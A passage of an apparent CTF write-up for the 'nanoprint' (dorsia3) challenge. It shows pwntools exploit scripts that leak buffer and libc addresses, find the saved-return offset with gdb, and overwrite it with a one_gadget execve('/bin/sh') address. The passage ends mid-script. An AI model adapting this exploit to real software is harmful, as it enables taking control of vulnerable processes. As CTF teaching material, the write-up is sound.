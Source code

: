 ```python
from pwn import *
def pad(str):
        return str+(60-len(str))*"B"
p=process("./nanoprint")
#p=remote("dorsia3.wpictf.xyz",31337)
data=p.recvline()
BUFFER=int(data[:10],16)
SYSTEM=int(data[-11:-1],16)+288
log.info("Buffer starts: "+hex(BUFFER))
log.info("System address: "+hex(SYSTEM))
pause()
p.sendline(pad("JUNK"))
p.interactive()


```

Since we have the libc binary let's calculate the libc base , and using gdb lets run the first part of our exploit and try to figure the offset between our buffer and the saved eip :

1- Run our little exploit

2- run gdb with the following command:

>gdb -p \`pidof nanoprint\`

![GDB](https://imgur.com/3sALPs3.png)

![OUT](https://imgur.com/1KGRjzU.png)

So the offset is 0x71 ,finally  let's choose the one gadget , i have used the famous [one_gadget](https://github.com/david942j/one_gadget) tool

![LIBC](https://imgur.com/Ly6WJjh.png)

After some debugging with gdb i figured that the constraints of this magic gadget are verified so we will use it in our exploit

> 0x3d0e0 execve("/bin/sh", esp+0x40, environ)

>constraints:

>esi is the GOT address of libc
 
> [esp+0x40] == NULL


now we have everything we need let's finish our exploit :

```python
from pwn import *
def pad(str):
        return str+(60-len(str))*"B"
#p=process("./nanoprint")
p=remote("dorsia3.wpictf.xyz",31337)
data=p.recvline()
BUFFER=int(data[:10],16)
SYSTEM=int(data[-11:-1],16)+288
log.info("Buffer starts: "+hex(BUFFER))
log.info("System address: "+hex(SYSTEM))
BASE=SYSTEM-0x3d200
one_gadget=BASE+0x3d0e0
RET=BUFFER+0x71
RET2=RET+2
log.info("Writing to: "+hex(RET))
payload="B"
payload+=p32(RET)
payload+=p32(RET2)
off1=(one_gadget & 0xffff)-9 #First 2 bytes
```